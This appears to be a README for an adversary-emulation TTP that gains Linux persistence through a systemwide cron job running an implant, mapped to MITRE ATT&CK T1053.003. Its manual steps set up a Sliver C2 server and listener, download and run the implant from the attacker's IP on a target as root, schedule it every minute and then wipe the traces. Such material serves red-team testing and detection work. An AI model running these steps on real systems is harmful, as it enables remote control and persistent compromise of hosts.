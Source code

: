 # Systemwide Cronjob

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the addition of a systemwide cronjob to run a specified implant.

## Arguments

- **implant_name**: The name of the implant to run via the cronjob. Default is "/bin/ls".

## Prerequisites

1. The executor must have root access to the system.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//persistence/linux/systemwide-cronjob/systemwide-cronjob.yaml \
  --arg implant_name=myimplant
```

## Steps

1. **setup**: This step checks if the crontab command is installed on the current system. If not, the TTP will exit with an error message.
2. **create-crontab-entry**: This step creates a new crontab entry to run the specified implant at a set interval.
3. **check-success**: This step checks if the crontab entry for the specified implant has been successfully created. If so, the TTP will exit with a success message. Otherwise, it will exit with a failure message.

## Manual Reproduction Steps

```
### Attacker Configuration
# Escalate privileges to root
sudo su

# Download and install Sliver
curl https://sliver.sh/install | sudo bash

# Create implants folder
mkdir implants

# Get public IP
# Note value for implant creation
curl icanhazip.com

# Run Sliver
sliver

# Generate implant
generate --http PUBLIC_IP_FROM_PREVIOUS_STEPS --save implants --skip-symbols --os linux

# Start listener
https -l 443

# Background the listener or open another tab
# and host the implant for download
pushd implants ; timeout 30 python3 -m http.server 8080 ; popd

### Target Configuration

# Escalate privileges to root
sudo su

# Download and execute c2 payload
wget "http://${PUB_IP_FROM_PREV_STEP}:8080/${IMPLANT_NAME}"
chmod +x "${IMPLANT_NAME}" &
./"${IMPLANT_NAME}"

echo "* * * * * cd ${HOME} && ./${IMPLANT_NAME}" > crontab_new
sudo crontab crontab_new
sudo crontab -l

# Clean up
echo '' > crontab_new
sudo crontab crontab_new
rm crontab_new
rm "${IMPLANT_NAME}"
```

## MITRE ATT&CK Mapping

- **Tactics**:
   - TA0003 Persistence
- **Techniques**:
   - T1053 Scheduled Task/Job
- **Subtechniques**:
   - T1053.003 Scheduled Task/Job Cron
